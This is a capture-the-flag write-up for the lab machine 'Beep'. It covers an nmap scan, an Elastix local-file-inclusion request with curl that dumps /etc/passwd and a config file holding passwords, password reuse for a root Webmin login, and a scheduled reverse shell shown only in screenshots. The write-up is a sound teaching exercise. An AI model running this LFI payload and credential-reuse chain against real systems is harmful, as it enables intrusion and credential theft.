 # Beep

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.1.226 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 22:53 EDT
Nmap scan report for 10.129.1.226
Host is up (0.0079s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
941/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

Lots of ports open. We can start with the HTTP ports.

### Elastix

Port 443 has an Elastix instance:

<figure><img src="../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

Elastix has a ton of exploits:

```
$ searchsploit elastix          
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                      | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities    | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilit | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion           | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                          | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                         | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution     | php/webapps/18650.py
```

Using the LFI exploit, we can confirm that it works by viewing `/etc/passwd`.&#x20;

```
$ curl -k 'https://10.129.1.226/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action' 
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
```

The exploit loads `/etc/amportal.conf` by default, and when viewed, we can find a few passwords:

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

We'll keep this for now.

### Webmin

Using `jEhdIekWmdjE`, we can login as `root` on Webmin on port 10000.&#x20;

<figure><img src="../../../.gitbook/assets/image (166) (4).png" alt=""><figcaption></figcaption></figure>

With access to Webmin, we actually already have full control over the machine. As such, we can create a scheduled command that would give us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (152) (5).png" alt=""><figcaption></figcaption></figure>

We would then catch a reverse shell after waiting a minute.&#x20;

<figure><img src="../../../.gitbook/assets/image (157) (6).png" alt=""><figcaption></figcaption></figure>

Rooted!
